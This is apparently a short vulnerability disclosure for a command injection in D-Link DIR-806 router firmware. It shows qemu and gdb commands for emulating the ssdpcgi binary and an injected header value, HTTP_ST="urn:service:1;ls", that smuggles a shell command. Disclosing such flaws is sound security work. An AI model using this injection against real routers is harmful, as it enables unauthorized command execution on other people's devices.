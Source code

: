 # D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection
## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 
![image-1](../img/4.jpg)
## Debugging verification
Debugging with qemu and gdb:

qemu: 

`sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID=1 -E REMOTE_PORT=8888 -E HTTP_ST="urn:service:1;ls" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin`

gdb: 

`set architecture mips` 

`set endian big` 

`target remote 127.0.0.1:12345` 

Set the HTTP_ST parameter as HTTP_ST="urn:service:1;ls", The results are shown in the figure below: 
![image-1](../img/1.jpg)
